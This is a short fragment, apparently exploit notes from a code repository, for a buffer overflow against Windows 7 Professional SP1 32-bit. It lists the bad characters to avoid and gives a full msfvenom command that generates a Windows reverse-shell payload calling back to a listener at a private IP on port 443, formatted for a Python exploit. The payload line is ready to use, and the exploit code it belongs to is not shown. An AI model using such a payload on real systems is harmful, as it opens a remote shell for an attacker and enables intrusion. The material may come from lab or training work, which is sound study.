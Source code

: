 

Created for Windows 7 Professional SP1 32bits

Badchars: \x00\x07\x2e\xa0

Msfvenom: msfvenom -p windows/shell_reverse_tcp lhost=10.13.46.217 lport=443 exitfunc=thread -b "\x00\x07\x2e\xa0" -v esp -f python
